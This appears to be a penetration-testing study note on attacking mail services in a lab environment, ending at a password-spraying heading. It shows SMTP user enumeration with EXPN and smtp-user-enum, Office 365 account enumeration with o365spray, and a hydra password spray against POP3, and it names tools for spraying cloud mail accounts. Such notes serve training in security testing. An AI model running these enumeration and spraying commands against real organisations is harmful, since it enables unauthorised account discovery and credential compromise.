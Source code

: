 ```shell
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

To automate our enumeration process, we can use a tool named [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
```shell
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

## Cloud Enumeration

https://github.com/0xZDH/o365spray

```shell
python3 o365spray.py --validate --domain msplaintext.xyz
```

```shell
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz 

```

## Password Attacks

```shell
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```



>[!important]
>If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta.

#### O365 Spray - Password Spraying
